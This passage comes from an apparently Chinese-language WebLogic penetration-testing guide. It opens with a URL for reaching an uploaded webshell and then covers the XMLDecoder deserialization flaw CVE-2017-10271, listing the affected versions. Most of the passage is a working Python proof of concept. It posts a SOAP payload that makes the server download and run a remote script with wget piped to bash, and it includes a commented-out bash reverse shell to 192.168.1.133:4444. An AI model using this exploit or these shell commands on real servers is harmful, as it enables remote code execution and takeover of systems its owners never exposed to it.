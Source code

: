 #### (3)访问大马

`http://<ip>:7001/test/1.jsp`

### 0x03 weblogic XMLDecoder 反序列化漏洞(CVE-2017-10271)
---
	
影响版本：

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.1.0
- WebLogic 12.2.1.2.0

针对Linux系统weblogic的远程下载执行POC：

```
import requests

class WebLogic:
    def __init__(self, url):
        if '://' not in url:
            url = 'http://' + url
        self.url = url.strip('/')

    def xmlDecoder(self):
        """Version:10.3.6.0.0/12.1.3.0.0/12.2.1.1.0
        CVE-2017-10271
        """
        headers = {
            "Content-Type":"text/xml;charset=UTF-8",
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }

        # <string>bash -i &gt;&amp; /dev/tcp/192.168.1.133/4444 0&gt;&amp;1</string>
        xml = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
            <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                    <java version="1.4.0" class="java.beans.XMLDecoder">
                        <void class="java.lang.ProcessBuilder">
                            <array class="java.lang.String" length="3">
                                <void index="0">
                                    <string>/bin/bash</string>
                                </void>
                                <void index="1">
                                    <string>-c</string>
                                </void>
                                <void index="2">
                                	<string>wget http://******/xxx | /bin/bash xxx</string>
                                </void>
                            </array>
                        <void method="start"/></void>
                    </java>
                </work:WorkContext>
            </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>"""
        req = requests.post(self.url+":7001/wls-wsat/CoordinatorPortType", headers=headers, data=xml)
        if req.status_code == 500 :
            print('[+] WebLogic xml decoder ')
            # print(req.text)

```